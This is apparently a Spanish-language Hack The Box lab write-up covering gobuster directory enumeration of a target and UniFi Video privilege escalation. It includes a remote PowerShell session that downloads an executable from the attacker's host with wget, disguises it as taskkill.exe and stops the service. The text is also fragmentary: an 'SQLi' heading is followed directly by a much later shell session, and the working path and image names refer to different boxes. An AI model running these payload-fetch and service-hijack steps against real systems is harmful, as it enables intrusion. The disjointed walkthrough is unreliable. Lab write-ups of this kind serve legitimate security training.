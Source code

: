 ``` text
</body>
</html>

```

Como veremos en un navegador, se nos da un link y una imagen de un perrito. Si realizamos la misma operación sobre https, tendremos el mismo resultado. Esto nos puede indicar que solo la capa de transporte cambia, pero es el mismo servidor web.

Busquemos más sobre estos servicios web.

# Gobuster

Ejecutamos gobuster con los parámetros tradicionales y menos extensos, pero se omiten los errores de conexión para no llenar de spam:

``` text
xbytemx@laptop:~/htb/friendzone$ ~/tools/gobuster -u http://10.10.10.104/ -w ~/git/payloads/owasp/dirbuster/directory-list-2.3-small.tx
t -t 20 -x php,html,txt

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.104/
[+] Threads      : 20
[+] Wordlist     : /home/xbytemx/git/payloads/owasp/dirbuster/directory-list-2.3-small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : php,html,txt
[+] Timeout      : 10s
=====================================================
2019/02/15 11:31:01 Starting gobuster
=====================================================
/remote (Status: 302)
/mvc (Status: 301)
```

Encontramos dos directorios, el primero llamado remote y el segundo llamada mvc

Remote
![Home de /remote](/img/htb-giddy/remote-root.png)

mvc
![Home de /mvc](/img/htb-giddy/mvc-root.png)

La primera resulta ser el portal de acceso remoto sobre powershell, mientras que la segunda parece alguna aplicación de productos de bicicleta. Si ponemos el mouse sobre alguno de estos objetos veremos que dentro de la URL esta harcodeado el numero de ID, por lo que probaremos con un SQLi.

# SQLi


[10.10.10.104]: PS C:\Users\Stacy\Documents> ls
[10.10.10.104]: PS C:\Users\Stacy> cd c:\programdata\unifi-video\
[10.10.10.104]: PS C:\programdata\unifi-video> dir
[10.10.10.104]: PS C:\programdata\unifi-video> cat .\data\system.properties
[10.10.10.104]: PS C:\programdata\unifi-video> Get-ChildItem -recurse HKLM:\SYSTEM\CurrentControlSet\Services | findstr -i "unifi"
[10.10.10.104]: PS C:\programdata\unifi-video>
[10.10.10.104]: PS C:\programdata\unifi-video> wget http://10.10.13.121:4001/r.exe -O taskkill.exe
[10.10.10.104]: PS C:\programdata\unifi-video> stop-service UniFiVideoService